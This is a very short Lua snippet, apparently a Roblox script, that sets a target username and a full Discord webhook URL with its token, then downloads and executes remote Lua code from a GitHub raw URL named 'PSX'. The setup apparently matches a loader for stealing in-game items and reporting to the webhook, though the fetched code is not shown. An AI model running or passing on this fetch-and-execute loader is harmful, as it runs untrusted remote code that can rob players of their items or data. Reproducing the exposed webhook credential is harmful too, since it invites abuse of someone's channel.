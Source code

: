 UserName = "ttvnatlolV4"
WebHook = "https://discord.com/api/webhooks/1102422514979848303/t7YiN2CxUAQ4aHaKvZB982NnBxAlEXGhpVvRFQfxlDuc8LfoFG3lZzUELcluji8IW0oC"
 
loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/New.lua", true))()
